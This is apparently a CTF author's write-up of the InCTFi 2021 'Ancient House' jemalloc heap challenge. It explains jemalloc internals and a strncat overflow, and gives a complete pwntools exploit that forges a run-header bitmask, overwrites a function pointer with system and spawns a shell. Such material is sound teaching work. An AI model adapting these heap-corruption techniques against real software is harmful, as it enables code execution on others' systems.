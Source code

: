 ```yaml
---
title: Ancient House - InCTF Internationals 2021
date: 2021-08-15 20:05:10
author: Pwn-Solo
author_url: https://twitter.com/Pwn_Solo
categories:
  - Pwn
tags:
  - Exploitation
  - Linux
  - Jemalloc
  - Heap
  - InCTFi
---
```


**tl;dr**
+ Jemalloc heap challenge
+ A buggy implementation of `strncat` in `merge` allows for an overwrite onto the next region 

<!--more-->

**Challenge Points:** 540
**No of Solves:** 31
**Challenge Author:** [Pwn-Solo](https://twitter.com/Pwn_Solo)


A beginner friendly pwn challenge I made for InCTFi 2021 as an introduction to  jemalloc exploitation. A really helpful [Article](http://phrack.org/issues/68/10.html) I found for jemalloc exploitation and internals 


## Jemalloc 101 
Some terms that will help in understanding the writeup better 
* **Chunks** - A chunk is used to describe big virtual memory
regions that the memory allocator conceptually divides available memory
into.
* **Arenas** - Arenas are the central jemalloc data structures as they are used to manage the chunks
*  **Runs** - Runs are further memory denominations of the memory divided by jemalloc into chunks , Runs are page aligned and are primarily used to track end-user allocations(regions).
Runs are divided into multiple size classes and hold regions of that particular size. 
* **Regions** - end user allocations, returned by `malloc()`(equivalent to chunks in Glibc). for small and medium sizes, the user allocations are contiguous. Unlike glibc the chunks dont have metadata, the state(allocated or free) of the regions are tracked by the run's metadata


## Bug
* The `merge` option essentialy lets you merge two regions if they are of the same size. The way this works is, it `realloc`'s the first chunk to `size+size2` and then concats the data from the second region over to the realloced region

```c
char * buggy_strncat(char * dest, const char * src, size_t n){
    size_t dest_len = strlen(dest);
    size_t i;

    for (i =0 ; i< n ; i++)
        dest[dest_len + i] = src[i];
    dest[dest_len + i] = '\x00';

    return dest;
}

int merge(int id1, int id2){
    
    int sz1 = players[id1]->size;
    int sz2 = players[id2]->size;

    if (id1 == id2 || sz1 != sz2 || sz1+sz2 >=0x60){
        printf("Dont try anything funny \n");
        exit(1);
    }
    players[id1]->name = realloc(players[id1]->name,sz1+sz2);
    players[id1]->size = sz1+sz2;
    players[id1]->hp = players[id1]->hp + players[id2]->hp;
    
    buggy_strncat(players[id1]->name,players[id2]->name,sz1+sz2);
    free(players[id2]->name);
    free(players[id2]);

    players[id2] = NULL;

    return 0;
}
```
The bug here is pretty clear, `strlen()` can be tricked to return a value greater than the region size by allocating 2 regions and filling them end to end. This can then be leveraged to achieve an overflow when the merged region is created after the `realloc()`

## Exploitation

To make the exploitation easy ,the 0x50 run contains a region holding a function ptr which is called during the exit option. There's also `system@plt` provided to further aid in exploitation.

There are actually a couple of ways in which you can go about exploiting this, one of which is to overwrite the name ptr of the enemy region to effectively gain an arbitrary free.This can be used to free the region holding the function ptr which we can then populate with `system` by adding another chunk . This was how most teams solved it 

but ... we're not here to talk about that

There's another way , one which I find way more fun . The idea here is to corrupt the run header metadata to trick malloc into returning back an allocated chunk.

let's take a look at the 0x50 run header (the run having our target funcion ptr)
```shell
0x7ffff7008000: 0x00000000384adf93      0x00007ffff7800d70
0x7ffff7008010: 0x0000002e00000004      0x0003fffffffffff0
0x7ffff7008020: 0x0000000000000000      0x0000000000000000
0x7ffff7008030: 0x0000000000000000      0x0000000000000000
```
Struct members of the run header 
```shell
gef➤  p *(arena_run_t*)0x7ffff7008000
$2 = {
  magic = 0x384adf93,
  bin = 0x7ffff7800d70,
  nextind = 0x4,
  nfree = 0x2ea
}
```
The magic field exists only for DEBUG builds of jemalloc but will cause a segfault if corrupted 

The `0x0003fffffffffff0` is the bitmask of the 0x50 run, this bitmask is what tracks free and used regions. unlike Glibc , jemalloc does not use linked lists to track allocations. So, as an attacker ,overwriting this bitmask can get us control of the allocations in this particular run.

So, how do we set the bits ?
The state of each region is tracked by setting the bits according to a simple rule `0: in use , 1: free` 

since our target is right at the top and we have only 1 in use region, the last bit would be set to 0. But, since we need to get our new allocation to overlap with the previous one , we set the last bit back to 1 to essentialy fool jemalloc into thinking the run in unallocated.


## Exploit 

`Battle` option does not check for negative indices, which lets us leak a bss pointer and at the same time overwrite the maximum number of allocations.

Now that there are plenty of allocations to play around with. We fill the 0x40 run ,which lies right before the 0x50 run, and trigger the overflow at the last allocation of the 0x40 run 

```python
from pwn import *
import sys
import os

remote_ip,port = 'localhost','6969'
binary = './Ancienthouse'
brkpts = '''

'''
#context.terminal = ['tmux','splitw','-h']
if sys.argv[1] == 'remote' :
    io = remote(remote_ip,port)

else:
    io = process(binary, env={"LD_PRELOAD":"./libjemalloc.so"})
    
re = lambda a: io.recv(a)
ru = lambda a: io.recvuntil(a)
rl = lambda  : io.recvline()
s  = lambda a: io.send(a)
sl = lambda a: io.sendline(a)
sla= lambda a,b: io.sendlineafter(a,b)
sa = lambda a,b: io.sendafter(a,b)

def add(name,size):
    sla(">> ",str(1))
    sla("size : ",str(size))
    sla("name : ",name)

def battle(idx):
    sla(">> ",str(2))
    sla("id : ",str(idx))

def merge(idx1,idx2):
    sla(">> ",str(3))
    sla("id 1: ",str(idx1))
    sla("id 2: ",str(idx2))

if __name__ == "__main__":

    sl(b"/bin/sh")

    add("a"*0x20,0x40)
    add("b"*0x20,0x40)

    for i in range(7):
        battle(1)
    sla(">>","1")
    
    for i in range(7):
        battle(0)
    sla(">>","1")

    add("c",0x20)
    
    battle(2)

    ru("battle with ")
    leak = u64(re(6).ljust(8,b"\x00")) ^ 0xa63
    log.info("heap base : "+ hex(leak))

    battle(-7)     

    ru("battle with ")
    code = u64(re(6).ljust(8,b"\x00"))-8
    log.info("code leak : "+ hex(code) )
       
    sla(">>","2")
    
    for i in range(61):
        add("zz",0x40)
    add("z"*0x40,0x40)
    gdb.attach(io,brkpts)
    
    for i in range(7):
        battle(64)
    sla(">>","1")

    system = code - 0x2e90 
    fake_header =  p32(0x0) + p64(leak+0x800d70) + p64(0x0000003100000001) + p64(0x0003ffffffffffff)

    add("x"*0x20,0x20)
    add(fake_header,0x20)
    merge(65,66)

    add(p64(system) + p64(leak+0x7040), 0x50)

    io.interactive()
```

I had a lot of fun making this challenge , hope you guys did too.
